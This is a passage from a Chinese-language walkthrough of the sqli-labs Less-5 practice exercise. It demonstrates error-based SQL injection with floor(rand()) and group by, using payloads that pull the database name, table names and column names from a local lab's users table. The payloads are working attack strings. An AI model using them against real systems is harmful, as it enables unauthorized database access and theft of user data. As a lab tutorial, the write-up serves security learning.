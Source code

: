 ```sql
XXX.php/?id=-1' union select 1,count(*), concat((select database()), floor(rand()*2))as a from information_schema.tables group by a --+
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/sql1-p5-3.png)

成功爆出库名，注意，由于有随机性，可能成功执行了语句所以不会报错，正常的显示页面（即不报错）如下

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/sql1-p5-4.png)

这种情况多提交几次就行，理论上每次都有百分之50的可能性，但可以通过修改rand()使用的种子来使其百分百报错,如下将rand()改为rand(1)，测试百分之百报错：

```sql
XXX.php/?id=-1' union select 1,count(*), concat((select database()), floor(rand(1)*2))as a from information_schema.tables group by a --+
```

获取库中表名

尝试在子查询中利用`group_concat`函数将几个表名直接连接在一起输出的，但是无用，不能触发报错，还是用limit函数，让查询结果每次一行的显示

```sql
http://127.0.0.1/sql1/Less-5/?id=1' union select 1,count(*),concat((select table_name from information_schema.tables where table_schema='security' limit 0,1),floor(rand(14)*2))as a from information_schema.schemata group by a --+
```

改变limit函数的参数，依次为`limit 0,1`,`limit 1,1`，`limit 2,1`，`limit 3,1`，将4个表名爆出来

![sql1-p5-5](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/sql1-p5-5.png)

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/sql1-p5-6.png)

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/sql1-p5-7.png)

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/sql1-p5-8.png)

最终找到我们需要的表，`users`

获取目标表中的列数,payload如下

```sql
http://127.0.0.1/sql1/Less-5/?id=1' union select 1,count(*),concat((select count(column_name) from information_schema.columns where table_schema='security' and table_name="users"),floor(rand(13)*2)) as a from information_schema.tables where table_schema='security' group by a --+
```

然后通过limit函数将列名逐一爆出来，payload如下，改变limit的变量即可，下面省略获取过程，直接写payload

```sql
http://127.0.0.1/sql1/Less-5/?id=1' union select 1,count(*),concat((select column_name from information_schema.columns where table_schema='security' and table_name="users" limit 0,1),floor(rand(12)*2)) as a from information_schema.tables where table_schema='security' group by a --+
```

从列中获取用户名,一样的改变limit参数，获得全部的用户名
